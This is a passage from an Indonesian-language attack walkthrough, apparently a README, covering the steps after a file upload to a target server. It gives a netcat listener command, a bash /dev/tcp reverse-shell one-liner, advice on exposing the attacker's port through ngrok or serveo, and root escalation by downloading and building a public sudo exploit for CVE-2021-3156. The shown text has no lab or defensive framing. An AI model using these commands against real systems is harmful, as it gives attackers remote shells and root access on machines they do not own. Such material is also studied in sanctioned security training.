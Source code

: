     * Setelah melakukan upload file kita melakukan Back Connect Shell menggunakan netcat dan she

      * **Penyerang Jalankan**

        * Diterminal jalankan netcat: `nc -lvp 4444`
      * **Target Jalankan**

        * Pada shell jalankan: `bash -i >& /dev/tcp/[IP Publik]/[PORT] 0>&1` atau menggunakan fitur yang ada pada Back Connect Shell.
          *Note: Untuk IP Publik dan Port bisa mencara langkah2 cara port forwarding dengan ngrok maupun serveo.net pada internet.![1725865745490](image/README/1725865745490.png)
    * Eskalasi Ke Root

      * Setelah melakukan back connect, kita melakukan eskalasi ke akses root. Seperti contoh kita menggunakan exploit yang telah ada **`https://github.com/CptGibbon/CVE-2021-3156`** Untuk Exploit lain anda bisa mencari melalui website Exploit-DB maupun mesin pencarian.

        * Perintah:
        * Anda bisa download menggunakan `wget`
        * Lalu jalankan `make`
        * Untuk memastikan anda menggunakan super user bisa menjalankan perintah `id`
